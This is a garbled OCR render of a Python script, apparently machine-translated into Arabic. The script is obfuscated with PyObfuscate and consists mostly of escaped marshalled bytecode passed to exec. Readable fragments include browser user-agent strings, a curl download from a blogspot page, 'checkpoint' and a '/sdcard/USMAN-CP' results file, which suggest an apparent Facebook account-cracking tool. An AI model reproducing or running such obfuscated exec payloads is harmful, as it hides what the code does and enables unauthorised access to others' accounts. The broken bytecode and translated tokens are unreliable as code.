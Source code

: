 # تشوش مع PyObfuscate
# https://www.github.com/htr-tech
# الوقت: الثلاثاء 24 يناير 19:08:02 2023
# -------------------------------
33 ميجا هرتز \ x07 \ x1b [1؛ 34 ميجا هرتز \ x07 \ x1b [1؛ 35 ميجا هرتز \ x06 {KB} i \ x10 \ '\ x00 \ x00z \ x1eMozilla / 5.0 (Linux؛ U؛ Android) \ x07 \ xda \ x016 \ xda \ x017 \ xda \ x018 \ xda \ x019 \ xda \ x0210 \ xda \ x0211 \ xda \ x0212z \ x0b en-us ؛ GT -) \ x1a \ xda \ x01A \ xda \ x01B \ xda \ x01C \ xda \ x01D \ xda \ x01E \ xda \ x01F \ xda \ x01G \ xda \ x01H \ xda \ x01I \ xda \ x01J \ xda \ x01K \ xda \ x01L \ xda \ x01M \ xda \ x01N \ xda \ x01O \ xda \ x01P \ xda \ x01Q \ xda \ x01R \ xda \ x01S \ xda \ x01T \ xda \ x01U \ xda \ x01V \ xda \ x01W \ xda \ x01X \ xda \ x01Y \ xda \ x01Z \ xe9 \ x01 \ x00 \ x00 \ x00i \ xe7 \ x03 \ x00 \ x00z.AppleWebKit / 537.36 (KHTML ، مثل Gecko) Chrome / \ xe9I \ x00 \ x00 \ x00 \ xe9d \ x00 \ x00 \ x00 \ xda \ x010ih \ x10 \ x00 \ x00i $ \ x13 \ x00 \ x00 \ xe9 (\ x00 \ x00 \ x00 \ xe9 \ x96 \ x00 \ x00 \ x00z \ x14Mobile Safari / 537.36 \ xfa \ x01 z \ x02؛ z \ x02) \ xfa \ x01.z> curl https://bacho1001.blogspot.com/2022/07/ua.html -o ua.htmlz \ x07ua. 91 \ xe2 \ x96 \ x91 \ xe2 \ x96 \ x91 \ xe2 \ x96 \ x91 \ xe2 \ x96 \ x91 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ n \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ n \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ n ___ _ _____ _ ____ \ n / _ | / | / / _ | / | / / \\ txtrR \ x00 \ x00 \ x00z \ x03 | rG \ x00 \ x00 \ x00 \ xda \ ncheckpointc \ x01 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x04 \ x00 \ x00 \ x00 \ x13 \ x00 \ x00 \ x00 \ xf3 $ \ x00 \ x00 \ x00 \ x97 \ x00g \ x00 | \ x00] \ r \ x02 \ x00 \ x00} \ x01} \ x02 | \ x01d \ x00z \ x00 \ x00 \ x00 | \ x02z \ x00 \ x00 \ x00 \ x91 \ x02 \ x8c \ x0eS \ x00r \ xbd \ x00 \ x00 \ x00rZ \ x00 \ x00 \ x00r \ xbf \ x00 \ x00 \ x00s \ x03 \ x00 \ x00 \ x00 r \ x12 \ x00 \ x00 \ x00rq \ x00 \ x00 \ x00z \ x18free. <locals>. <listcomp> \ x1b \ x01 \ x00 \ x00r \ xc2 \ x00 \ x00 \ x00r \ x14 \ x00 \ x00 \ x00 \ xe9 \ x18 \ x00 \ x00 \ x00 \ xe9 \ '\ x00 \ x00 \ x00r \ x1a \ x00 \ x00 \ x00ue \ x00 \ x00 \ x00 \ r \ x1b [1؛ 31m [ANANY- \ xef \ xbb \ x96 \ xef \ xbb \ xa0 \ xef \ xbb \ x90 \ xef \ xbb \ xa3 \ xef \ xba \ x8f \ xef \ xba \ x8e \ xef \ xba \ xb4 \ xef \ xba \ xa4 \ xef \ xbb \ x9f \ xef \ xba \ x8dhttps : //www.facebook.com/kristi.ditucc \ xf0 \ x9f \ xa5 \ xba] \ n العدد: z٪ \ n ---------------------- -------------- z \ x14 / sdcard / USMAN-CP.80 \ t \ xf0 \ x04 \ x08 \ x01 \ x14 \ xf0 \ x00 \ x08 \ x01 \ x14 \ xf0 \ x00 \ x08 \ x01 \ x14 \ xf0 \ x12 \ x00 \ x01 \ x05 \ x80 \ x04 \ x81 \ x06 \ x84 \ x06 \ x80 \ x06 \ xe0 \ x00 $ \ xd0 \ x00 $ \ xd0 \ x00 $ \ xd0 \ x00 $ \ xd0 \ x00 $ \ xd0 \ x00 $ \ xd8 \ x009 \ xd0 \ x009 \ xd0 \ x009 \ xd0 \ x009 \ xd0 \ x009 \ xd0 \ x009 \ xd8 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd8 \ x00 \ x0 \ x80 \ xe x80 \ x0e \ x80 \ x0e \ xf0 \ x02 \ x08 \ x01N \ x01 \ xd8 \ x04 \ x13 \ x80O \ x80O \ x80O \ xd8 \ x04C \ xd0 \ x04C \ xd0 \ x04C \ xd0 \ x04C \ xC0 \ xd0 \ x04C \ xd8 \ x04 \ x14 \ xd0 \ x04 \ x14 \ xd0 \ x04 \ x14 \ xd0 \ x04 \ x14 \ xd8 \ x043 \ xd0 \ x043 \ xd0 \ x043 \ xd0 \ x043 \ xd0 \ x043 \ xd x043\ xd0 \ x043 \ xf8 \ xd8 \ x07 \ x1a \ xf0 \ x00 \ x03 \ x01N \ x01 \ xf0 \ x00 \ x03 \ x01N \ x01 \ xf0 \ x00 \ x03 \ x01N \ x01 \ xd8 \ x04 \ r \ x80B \ x84I \ xd0 \ x0eM \ xd1 \ x04N \ xd4 \ x04N \ xd0 \ x04N \ xd8 \ x04 \ r \ x80B \ x84I \ xd0 \ x0e \ x1f \ xd1 \ x04 \ xd4 \ x04 \ xd0 \ x04\ xd8 \ x04 \ r \ x80B \ x84I \ xd0 \ x0eL \ xd1 \ x04M \ xd4 \ x04M \ xd0 \ x04M \ xd0 \ x04M \ xd0 \ x04M \ xf0 \ x07 \ x03 \ x01N \ x01 \ xf8 \ \ xf0 \ x08 \ x00 \ x01 \ x1e \ xd0 \ x00 \ x1d \ xd0 \ x00 \ x1d \ xd0 \ x00 \ x1d \ xd0 \ x00 \ x1d \ xd0 \ x00 \ x1d \ xd8 \ x07 \ t \ x80 \ x04 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x06 \ x12 \ x80 \ x03 \ xd8 \ x08 \ x14 \ x80 \ x05 \ xd8 \ x08 \ x14 \ x80 \ x05 \ xd8 \ t \ x15 \ x80 \ x06 \ xd8 \ x07 \ x13 \ x80 \ x04 \ xd8 \ t \ x15 \ x80 \ x06 \ xd8 \ x00 \ n \ x80 \ n \ x80 \ n \ x80 \ n \ xd8 \ x00 \ t \ x80 \ t \ x80 \ t \ x80 \ t \ xd8 \ x00 \ x0f \ x80 \ x0f \ x80 \ x0f \ x80 \ x0f \ xd8 \ x05 \ r \ x80 \ x02 \ xd8 \ n \ x0f \ x88٪ \ x90 \ x05 \ x89، \ x8c ، \ xf0 \ x00 \ x0e \ x01 \ x17 \ xf0 \ x00 \ x0e \ x01 \ x17 \ x80B \ xd8 \ x06 &\ x80A \ xd8 \ x06 \ x13 \ x80f \ x84m \ xd0 \ x144 \ xd0 \ x144 \ xd0 \ x144 \ xd1 \ x065 \ xd4 \ x065 \ x80A \ xd8 \ x06 \ x13 \ x80A \ xd8 \ x06 \ x13 \ x80f \ x84m \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf1 \ x00 \ x00 \ x07W \ x02 \ xf4 \ x00 \ x00 \ x07W \ x02 \ x80A \ xd8 \ x06 \ x16 \ x80f \ xd4 \ x06 \ x16 \ x90q \ x98 # \ xd1 \ x06 \ x1e \ xd4 \ x06 \ x1e \ x80A \ xd8 \ x06 \ x13 \ x80f \ x84m \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf1 \ x00 \ x00 \ x07W \ x02 \ xf4 \ x00 \ x00 \ x07W \ x02 \ x80A \ xd8 \ x066 \ x80A \ xd8 \ x06 \ x16 \ x80f \ xd4 \ x06 \ x16 \ x90r \ x98 # \ xd1 \ x06 \ x1e \ xd4 \ x06 \ x1e \ x80A \ xd8 \ x06 \ t \ x80A \ xd8 \ x06 \ x16 \ x80f \ xd4 \ x06 \ x16 \ x90t \ x98D \ xd1 \ x06! \ xd4 \ x06! \ x80A \ xd8 \ x06 \ x16 \ x80f \ xd4 \ x06 \ x16 \ x90r \ x98 # \ xd1 \ x06 \ x1e \ xd4 \ x06 \ x1e \ x80A \ xd8 \ x06 \ x1c \ x80A \ xd8 \ r \ x0e \ xd0 \ n: \ xd0 \ n: \ x90 \ x11 \ xd0 \ n: \ xd0 \ n: \ x90a \ xd0 \ n: \ x98 \ x11 \ xd0 \ n: \ x98A \ xd0 \ n: \ x98q \ xd0 \ n: \ xd0 \ n: \ xa0A \ xd0 \ n: \ xa0q \ xd0 \ n: \ xd0 \ n : \ xa81 \ xd0 \ n: \ xd0 \ n: \ xa8q \ xd0 \ n: \ xd0 \ n: \ xb01 \ xd0 \ n:\ xd0 \ n: \ xb0q \ xd0 \ n: \ xd0 \ n: \ x80E \ xd8 \ x04 \ x08 \ x87K \ x82K \ x90 \ x05 \ xd1 \ x04 \ x16 \ xd4 \ x04 \ x16 \ xd0 \ x04 \ x16 \ xd0 \ x04 \ x16 \ xf0 \ x02 \ x03 \ x01 \ t \ xd8 \ x04 \ r \ x80B \ x84I \ xd0 \ x0eN \ xd1 \ x04O \ xd4 \ x04O \ xd0 \ x04O \ xd0 \ x04O \ xf xf0 \ x02 \ x01 \ x01 \ t \ xd8 \ x04 \ x08 \ x80D \ xf8 \ xf8 \ xf8 \ xd8 \ x05 \ t \ x80T \ x88) \ x90C \ xd1 \ x05 \ x18 \ xd4 \ x05 \ x18 \ xd7 \ x05 \ x1d \ xd2 \ x05 \ x1d \ xd1 \ x05 \ x1f \ xd4 \ x05 \ x1f \ xd7 \ x05 * \ xd2 \ x05 * \ xd1 \ x05، \ xd4 \ x05، \ x80 \ x04 \ xf0 \ x02 \ x0b \ x01 <\ xf0 \ x00 \ x0b \ x01 <\ xf0 \ x00 \ x0b \ x01 <\ xf0 \ x18 \ x00 \ x08 \ t \ x80 \ x04 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xf0 \ x04 \ x02 \ x01 \ x10 \ xf0 \ x00 \ x02 \ x01 \ x10 \ xf0 \ x00 \ x02 \ x01 \ x10 \ xf0 \ X06!\ x08M \ x01 \ x80 \ x04 \ xf0F \ x01 \ x01 \ x012 \ xf0 \ x00 \ x01 \ x012 \ xf0 \ x00 \ x01 \ x012 \ xf0 \ x04 \ x0b \ x01 \ x0e \ xf0 \ x00 \ x0b \ x01 \ x0e \ xf0 \ x00 \ x0b \ x01 \ x0e \ xf0 \ x18 \ x00 \ x08 \ t \ x80 \ x04 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xf0 \ x02 \ x18 \ x01 \ x1b \ xf0 \ x00 \ x18 \ x01 \ x1b \ xf0 \ x00 \ x18 \ x01 \ x1b \ xf04 \ x15 \ x01 \ x0e \ xf0 \ x00 \ x15 \ x01 \ x0e \ xf0 \ x00 \ x15 \ x01 \ x0e \ xf06 & \ x01 * \ xf0 \ x00 & \ x01 * \ xf0 \ x00 & \ x01 * \ xf0N \ x01B \ x01 \ x01 \ r \ xf0 \ x00B \ x01 \ x01 \ r \ xf0 \ x00B \ x01 \ x01 \ r \ xf0L \ x02 \ x00 \ x04 \ x0c \ x88z \ xd2 \ x03 \ x19 \ xd0 \ x03 \ x19 \ xd8 \ x04 \ x07 \ x80C \ x81E \ x84E \ x80E \ x80E \ x80E \ xf0 \ x03 \ x00 \ x04 \ x1a \ xd0 \ x03 \ x19s \ x1e \ x00 \ x00 \ x00 \ xc1 \ x1b \ x14A0 \ x00 \ xc105B (\ x03 \ xc2 \ '\ x01B (\ x03 \ xc6 ،\ x10F = \ x00 \ xc6 = \ x02G \ x01 \ x03 \ x00 \ x00W \ xb1s \ x02) \ x00S \ x01d \ x00 \ x01 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x01 \ xab \ x00 \ x00 \ x01 \ xa6 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x01 \ xab \ x00 \ x00 \ x01 \ xa6 \ x00d \ x01e \ x00 \ x02 \ x00e \ x00 \ x02 \ x00 \ x97 \ x00 \ x00 \ x00. \ xf3 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x05 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00cN) \ x02 \ xda \ x04exec \ xda \ x01_ \ xa9 \ x00 \ xf3 \ x00 \ x00 \ x00 \ x00 \ xfa \ x03 <x> \ xfa \ x08 <module>r \ x06 \ x00 \ x00 \ x00 \ x01 \ x00 \ x00 \ x00sF \ x00 \ x00 \ x00 \ xf0 \ x03 \ x01 \ x01 \ x01 \ xd8 \ x00 \ x04 \ x80 \ x04 \ x80a \ x80a \ xf0 \ x00 \ x00 \ nTv \ x10 \ xf1 \ x00 \ x00 \ x06Uv \ x10 \ xf4 \ x00 \ x00 \ x06Uv \ x10 \ xf1 \ x00 \ x00 \ x01Vv \ x10 \ xf4 \ x00 \ x00 \ x01Vv \ x10 \ xf0 \ x00 \ x00 \ x01Vv \ x10 \ xf0 \ x00 \ x00 \ x01Vv \ x10 \ xf0 \ x00 \ x00 \ x01Vv \ x10r \ x04 \ x00 \ x00 \ x00 \ x00 \ x00YEs \ x02) \ x00S \ x01d \ x00 \ x01 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x01 \ xab \ x00 \ x00 \ x01 \ xa6 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x01 \ xab \ x00 \ x00 \ x01 \ xa6 \ x00d \ x01e \ x00 \ x02 \ x00e \ x00 \ x02 \ x00 \ x97 \ x00 \ x00 \ x00. \ xf3 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x05 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00c '))
تذييل

